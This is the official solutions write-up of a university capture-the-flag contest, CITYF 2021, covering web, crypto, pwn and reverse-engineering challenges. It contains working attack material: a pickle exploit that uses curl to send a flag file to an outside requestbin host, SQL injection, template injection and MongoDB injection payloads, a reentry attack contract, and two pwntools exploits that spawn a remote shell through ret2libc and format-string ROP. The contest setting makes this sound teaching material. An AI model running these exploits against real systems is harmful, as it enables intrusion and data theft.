# CITYF 2021 official write up

# Web

## babysite1

viewsource->search `CITFY`->search `}`

## babysite2

google can not find means spyder can not crawl, so see the `robots.txt`

## babysite3

F12 to see the cookie, the cookie will only return after go to the root path.

base64 decode to get the flag.

## babysql

it is an origin question from other CTF.

[reference](https://noob3xploiter.medium.com/lit-ctf-alex-fan-club-sql-injection-with-strict-blacklist-7abbcd402751)

Here is a good wp from Li Ruixin.

First see that all comment is banned, cannot use-- #

That means have to use union.

Need table name for query.

To get table name need to know the database structure.

Given that all the other servers seem to be written in python, I guess this is also base on python.

Search python database, you can find that sqlite is integrated in python.

Search sqlite minjection there is a github article shows how to get information

`select sql from sqlite_master where name='table_name'`

Another problem is that can not use space, so I figured In DB, /t and /n can be used

In the search field I think tab is easier.

However directly tab will jump to next div

I use txt to edit and paste.

Here is my firsy query just : 

I think union require the two sql return same number of column. I tried this and it just works 

``` 
qqqqqqq'   UNION  SELECT tbl_name   FROM  sqlite_master   WHERE    type='table' and tbl_name   NOT    like 'sqlite_ 
```

This tells me there is a funny table besides the achievement

So I need to know what to select 

Sql:

```
qqqqqqq'   UNION  SELECT sql FROM  sqlite_master   WHERE type!='meta'    AND    sql NOT    NULL   AND    name='redacted' AND    '1'!='(there is a % at the end)
```

This tells me what to select from the table 

Then just get the flag

```
qqqqqqq'   UNION  SELECT redacted   from   redacted   where  redacted    like'
```

## Deserialization

traditional pickle deserialization vul.

when deserialization, python will automatically exec funcitons like `__reduce__`, which gives the way for us to exec code directly on the server side.

the injection point is in the cookie content part, user can easily change request by firefox to insert your exp code.

Here is the exp.

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("curl https://requestbin.net/r/2uw7m1eo/`cat flag.txt`")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

here use curl to send request out to get information is a common trick in web.

## masterecho

it is also a traditional question from other competition.

SSTI vul with black list filter.

here is the good writeup from @hozy

The HTML document has a comment about src being a folder, so I access
http://cityf01.cs.cityu.edu.hk:30005/src, which returned the Python code for the
Flask app serving the site.
This Flask app used jinja2 to render the username in a way that is open to
injections. Since the config and self are set to None beforehand, I tried other
Flask objects available to the evaluating context. I even tried `{{__globals__}}`
In the end I found nothing, so I googled and came across a blog post on this
exact problem. Turned out I can use `url_for` function of Flask, from which
accessing `__globals__` is straightforward.
The payload is then just `{{url_for.__globals__['current_app'].config}}` .

That gave me back the config, which contains the flag  

## babyecho

Firstly read the source code, this is the core part.

```
var MongoClient = require('mongodb').MongoClient;
var url = 'mongodb://db/ctf';

const query = function (input, res) {
    console.log(input);
    var q = {"$where" : input };
    MongoClient.connect(url, function(err, db) {
        var cursor = db.db("ctf").collection('users').find(q).toArray(function(err, result) {
	console.log(result);
        res.render('index', { title: 'Welcome'+input});
}) ;
    }); 
}
```

This seems a meaningless debuging db access, but it is where the vul locate.

The `input` is the user controlled input, it used in the query construction for the  `$where` argument, if you are familiar with mongodb and nosql or with the hint I gave you, you will know that `$where` is unsafe and you can exec finite js functions here. Here is the reference [link](https://docs.mongodb.com/manual/reference/operator/query/where/).

The most important one here is the `sleep()` function, with this sleep function, you can realize time-based blind sql injection by control the response time.

so here is the example payload

```
if(this.passwd=="123456")sleep(5000)
```

this payload will let the response to wait 5s if the `passwd=="123456"`; then you can simply use the python script to brute-forcely get the passwd.

# Crpto

## RSA Improved

Multi primes RSA

Here is a good wp from @hozy

The hint is "Two primes are not enough for RSA." RSA as an algorithm usually
involves an integer which is the product of two very large prime numbers. This hint suggested that the algorithm used multiple primes to encrypt the plain text. The rsa_improved.py seem to confirm that.

I wrote a quick and naive Python script to factor the given into primes, which
gave me 21 primes. I was too lazy to reverse the algorithm; thankfully somebody already did that and posted it as a [gist](https://gist.github.com/jackz314/09cf253d3451f169c2dbb6bbfed73782), so I just used it with the given input, which gave me the plaintext as an integer. Converting it to text to get the flag and voilà!  

Also a script from Li Ruixin here.

```
from Crypto.Util.number import getPrime
import math
import gmpy2
from Crypto.Util.number import long_to_bytes
n = 10588750243470683238253385410274703579658358849388292003988652883382013203466393057371661939626562904071765474423122767301289214711332944602077015274586262780328721640431549232327069314664449442016399
e = 65537
c = 2093679529573280822046118784413700108333955356566436078249435745673869110116883084133929754933311199736732547505892559695135678800481469602859356500165748152612256935469597540381698322759986797887837
phi=(2151055860*2319991936*2341310832*2391906756*2448497716*2493514392*2586983802*2758321512*2784469416*2816940108*2865965428*3092165242*3218701458*3438516510*3526137360*3663803700*3673658160*3789550042*3866428116*3919632262*4147385898)
print(phi)

d=gmpy2.invert(e,phi)
x = pow(c,d,n)
print(long_to_bytes(x))

```


## The DAO ReEntry

From the name, you can easily know that is is an traditional ReEntry attack in ETH and smart contract。

Then read the contract, there are three functions, the `payforflag` is the function you need to call to get the flag. For the`profit` function, you set your balance to 1.  For the `widthdraw` function, it is where the vul is, if send amount before minus balance, which can lead to ReEntry Attack.

Looking at `payforflag` function, what we need to do is let the balance>100000, so together with reentry, we can utilize negative overflow to let the balance negative overflow to `0-1`, which is a very big number in unsigned int.

So now we get the attack contract.

```
pragma solidity ^0.4.24;

interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}

contract attacker {

    BabybankInterface constant private target = BabybankInterface(0x4c6bF58813A6dc360653cA7C385a1A4233998eBe);

    uint private flag = 0;

    function exploit() public payable {
        target.profit(); //let the balance to 1 to start withdraw
        target.withdraw(1); //first withdraw
        target.payforflag("email", "666");
    }

    function() public payable {
        require (flag == 0);
        flag = 1;
        target.withdraw(1); // reentry withdraw
    }
```

# Misc

## welcome

just copy and paste

## Sea and Sky

Uncompress the picture using a compress software, and you will see the flag.png


# Pwn

## cmd

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	r += strstr(cmd, "cat")!=0;
	return r;
}
int main(int argc){
	putenv("PATH=/nopathenv");
	char input[30];
	gets(input);
	if (strlen(input)>=30) return 0;
	if(filter(input)) return 0;
	system( input);
	return 0;
}
```

The program filters the input and feed it to system function.
The environment var $PATH is removed so we should use the abstract path for utilities.

First we use ``/bin/ls`` to see the files and found file flag. Since cat is filtered, we can use head/less or even python to read the flag. Here we show the ``head``, and the default path for head in Ubuntu is ``/usr/bin/head``. 

The filter on flag can be bypassed using asterisk wildcard (fl*, f*, etc.). 

The payload is:


## stack overflow

This binary has no canary and PIE. The title is straight, just try stack overflow. 


In IDA we can find the vulnerability in foo function


Besides, there is a secure function which uses puts function, so puts is loaded in the plt table and we can use this function to leak the libc address.


Because x86 C programs follows cdecl, the arguments are pushed to the stack from right to left. 
Our exploitation follows the two step

1. We exploit the overflow to control the return address of foo function. Return to the plt table of puts function and control the argument of puts to be the libc address, the return address of puts function to be the main function.

2. We have leaked the libc address and returned to the main function. We start to get shell by exploiting the foo function again to return to system function with the string "/bin/sh" in libc. 

```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = remote("cityf01.cs.cityu.edu.hk", 30011)
#sh = process('./stackof')

ret2libc = ELF('./stackof')

puts_plt = ret2libc.plt['puts']
libc_start_main_got = ret2libc.got['__libc_start_main']
main = ret2libc.symbols['main']

print(hex(puts_plt), hex(libc_start_main_got), hex(main))

#"leak libc_start_main_got addr and return to main again"
payload = flat([b'A' * 162, p32(puts_plt), p32(main), p32(libc_start_main_got)])

#gdb.attach(sh, "break *0x804868d")
sh.sendlineafter('Can you find the shell?', payload)

#"leak the libc addr"
content = sh.recv()

libc_start_main_addr = u32(content[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print(hex(system_addr), hex(libc_start_main_addr))

#"get shell"
payload = flat([b'A' * 162, system_addr, 0x12345678, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

## welcome2

This binary is 64-bit and has enabled PIE.


In IDA we can see the ``main``, the ``welcome`` and ``print_username`` function




This binary outputs what the user entered for ten times, and the length limit is 36 bytes. 

There is a format string vulnerability in ``print_username`` which directly print ``a1``. 

The exploitation contains two stage. In stage 1 we need to leak the libc address. Stage 2 is to use ROP. We use `%n` in format string to rewrite the return address to a gadget, the next address to the system function, and the argument of system function to get shell. 

First we need to leak the libc address, we can debug the *welcome2* binary and find the offset of the libc return address in the stack.

The libc return address is the 13th element in the stack. Since this is a 64-bit program, the first 6 arguments will be regigers, so the actual offset is 19.

Then we get the address for system function. To find the return address, we can leak the ebp address for print_username, so that we can know the offset of return address of welcome function in stack. Then we modify the return address, and the following two addresses. Since 64-bit program take first six arguments by registers, we use the gadget in the binary to forge the argument for system function. 



The program has enabled PIE, so we also need to leak the address for the program to calculate the address of the gadget. It's easy to find a one in the stack. Since the gadget is 127 bytes from `main+34` in the binary, we get the gadget address by add this address by 127.



Then we can start to modify the return address.
64-bit is too large in the format string so we cannot write the address once. 
We can write two bytes every time. One thing to take care is that we need to reset the counter of the main function before it reaches to 10 if we need to call welcome function more than 10 times. After all things are done, we get the shell and flag is in the server.


```
from pwn import *
from LibcSearcher import *

p = remote("cityf01.cs.cityu.edu.hk", 30012)
#p = process("./stackof")

def write_hn(addr, target):
	if target == 0:
		tmp = "%12$hn"
	else:
		tmp = "%"+str(target)+"c%12$hn"
	payload = flat([tmp, "a"*(24-len(tmp)-8), p64(addr)])
	p.send(payload)
	
	
def fmt_seg_write(addr, target):
	s4 = u16(p64(target)[:2])
	s3 = u16(p64(target)[2:4])
	s2 = u16(p64(target)[4:6])
	s1 = u16(p64(target)[6:8])
	
	write_hn(addr+6, s1)
	p.recvuntil("Username:\n")
	write_hn(addr+4, s2)
	p.recvuntil("Username:\n")
	write_hn(addr+2, s3)
	p.recvuntil("Username:\n")
	write_hn(addr, s4)

def fmt_write(addr, target, size):
	if size == 8:
		payload = "%"+str(target)+"c%12$ln"
	elif size == 4:
		payload = "%"+str(target)+"c%12$n"
	payload += "a"*(24-len(payload)-8)
	payload = flat([payload, p64(addr)])
	p.send(payload)
	p.recvuntil("Username:\n")

#gdb.attach(p, "break *$rebase(0x120B)")

p.recvuntil("Username:\n")
p.send("%19$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
libc_start_main_ret = int(content, 16)

libc = LibcSearcher("__libc_start_main_ret", libc_start_main_ret)
libc.select_libc(1)
libc_base = libc_start_main_ret - libc.dump("__libc_start_main_ret")
system_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

print("base:", hex(system_addr))
print("system:", hex(system_addr))

p.send("%14$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
main_rbp_addr = int(content, 16)
cnt_addr = main_rbp_addr - 4
print("counter addr:", hex(cnt_addr))
print("main_frame rbp addr:", hex(main_rbp_addr))

p.send("%15$p"+"#"*18)
content = p.recvuntil("Username:\n", drop=True).split(b"\n")
content = content[1].split(b"#")[0]
gadget_addr  = int(content, 16) + 127
print("gadget addr:", hex(gadget_addr))

# set counter to 0
fmt_write(cnt_addr, 0, 4)

# ROP
fmt_seg_write(main_rbp_addr + 8, gadget_addr)
p.recvuntil("Username:\n")
fmt_write(cnt_addr, 0, 4)

fmt_seg_write(main_rbp_addr + 16, bin_sh)
p.recvuntil("Username:\n")

fmt_seg_write(main_rbp_addr + 24, system_addr)

p.interactive()
```

# Rev

## hidden information

The binary is obfuscated but the global data is not. 

Search the string "CITYF" you can find it easily.


## dbg

The binary is compressed by upx, so first uncompress it 
``upx -d dbg``

We can run the program and find only a result "Decrypting...". When debugging using gdb, it will directly exit.

In IDA we cannot decompile to C codes, because there are obfuscating codes disturb the stack analysis of IDA. 


Change the ``call`` at 0x33e5 to ``jmp`` to bypass the codes.



Use F5 we can see the C code, it detect gdb by checking the ptrace function. If ptrace fails it means this program is being ptraced(debuged), because gdb uses ptrace to trace program. 



We can remove the conditional jump. 



Then we start to debug the program. We know this program is decrypting the flag, so we can find the address that the decrypting finishes which is at 0x35c0. We just set breakpoint here and debug the program. 


and see the flag.


## 2048

We can use the IDA find the condition to ouput flag.

sub_21E2:

``dw_6440`` is set to 1 if ``sub_2091`` returns 1.
Follow into ``sub_2091``, it's the parse function provided as hint.

```
__int64 __fastcall parse(int (*grid)[4], unsigned __int8 *buf)
{
  int v2; // eax
  int v3; // eax
  int i; // [rsp+18h] [rbp-8h]
  int v7; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 15; ++i )
  {
    v7 = 0;
    while ( !v7 )
    {
      v2 = *buf;
      if ( v2 == 48 )
      {
        v3 = (*grid)[4 * (i / 4) + i % 4] >> 8;
        LOBYTE(v3) = v3 ^ 0xA5;
        if ( __PAIR64__((unsigned __int8)(*grid)[4 * (i / 4) + i % 4] ^ 0xA6u, v3) != __PAIR64__(buf[2], buf[1]) )
          return 0LL;
        v7 = 1;
        buf += 3;
      }
      else
      {
        if ( *buf > 0x30u )
          return 0LL;
        if ( v2 == 16 )
        {
          buf += buf[1];
        }
        else
        {
          if ( v2 != 32 )
            return 0LL;
          buf -= buf[1];
        }
      }
    }
  }
  return 1LL;
}
```

Analyze this function, we know that this function compares each element of `grid` with some elements of the `buf`. In total there are 16 comparisons. The pointer of `buf` moves in the following rules:

(1) If *buf is 0x30, it compares the (grid[i/4][i%4] >> 8)^0xa5 with *(buf+1) and (grid[i/4][i%4] & 0xff)^0xa6 with *(buf+2). If they are equal, the pointer of `grid` move to the next element. The pointer of `buf` adds 3.
(2) If it is 0x10, `buf` pointer adds *(buf+1).
(3) If it is 0x20, `buf` pointer subs *(buf-1).

And we can find the `grid` is our grid for this 2048 game, and the `buf` is static data, so we dump out the whole data segment.

```
import idc

start = 0x6020
size = 0x400  
tmp = []

for i in range(size):
    byte_tmp = idc.get_original_byte(start + i)
    tmp.append(byte_tmp)
data = bytearray(tmp)
with open("./dumped", "wb") as f: 
    f.write(data)
```

Then we write the reverse step of the parse function

```
with open ("dumped", "rb") as f:
    data = f.read()

start_offset = 0x6220-0x6020

def rev_parse(data, grid_idx, buf_pos):
    while grid_idx < 16:
        if data[buf_pos] == 0x30:
            result = ((data[buf_pos+1] ^ 0xa5)<<8) + ((data[buf_pos+2] ^ 0xa6))
            print(result, ",", sep='', end='')
            grid_idx += 1
            buf_pos += 3
        elif data[buf_pos] == 0x10:
            buf_pos += data[buf_pos+1]
        elif data[buf_pos] == 0x20:
            buf_pos -= data[buf_pos+1]
        else:
            raise("Not valid data")

rev_parse(data, 0, start_offset)
```

We get the correct grid: 

```
2,0,4,8,0,2048,2048,0,0,2048,2048,0,8,4,0,2
```

Because this program can load from a txt, so we can change the correct grid to a save of the game and directly load in the game. (of cause we can also modify the game during runtime). 


